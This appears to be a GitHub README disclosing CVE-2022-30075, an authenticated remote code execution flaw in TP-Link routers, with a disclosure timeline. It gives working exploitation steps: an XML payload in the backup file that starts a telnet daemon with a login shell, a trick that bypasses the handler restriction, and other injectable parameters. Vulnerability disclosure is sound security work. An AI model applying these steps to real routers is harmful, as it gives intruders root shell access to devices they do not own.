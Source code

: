 # CVE-2022-30075
Authenticated Remote Code Execution in Tp-Link Routers

### Affected Devices
If your Tp-Link router has backup and restore functionality and firmware is older than june 2022, it is probably vulnerable

### Tested With
Tp-Link Archer AX50, other tplink routers may use different format of backups and exploit needs to be modified

### PoC
Using exploit for starting telnet daemon on the router
![tplink](https://user-images.githubusercontent.com/28111712/172499966-8a5d486f-c79d-4fe2-95ff-de77d211ab54.png)

### Manual Exploitation
1. login to router web interface  
2. go to advanced -> system -> backup settings
3. decrypt and decompress backup file
- if your router uses different format of backup files you can modify exploit code (class BackupParser) or simply use some tool from github:  
https://github.com/stdnoerr/tp_link_credentials_harvester/blob/master/decrypt.py  
https://github.com/ret5et/tplink_backup_decrypt_2022.bin  
...
4. in decrypted xml file you can find something like this:
```xml
<button name="led_switch">
  <action>pressed</action>
  <button>ledswitch</button>
  <handler>/lib/led_switch</handler>
</button>
```
- replace it with these lines
```xml
<button name="exploit">
  <action>pressed</action>
  <button>ledswitch</button>
  <handler>/usr/sbin/telnetd -l /bin/login.sh</handler>
</button>
```
- there is a restriction that blocks modification of parameter `system.button.handler`, but it can be easily bypassed by changing name of parent xml node (e.g. `name="exploit"`)
- code execution can be achieved not only by changing parameter `system.button.handler`, but also using `ddns.service.ip_script`, `firewall.include.path`, `uhttpd.main`, and others... 
5. compress and encrypt modified backup file
6. go to advanced -> system -> restore settings -> upload modified backup file
7. after reboot, push the led button that triggers execution of injected command `/usr/sbin/telnetd -l /bin/login.sh`
8. remotelly login to router: `telnet 192.168.1.1`

### Timeline
15.03.2022 - Identified vulnerability  
15.03.2022 - Contacted Tp-Link support  
16.03.2022 - Recieved response from Tp-Link  
02.05.2022 - Assigned CVE  
27.05.2022 - Tp-Link released firmware with fixed vulnerability  
07.06.2022 - Published technical details  
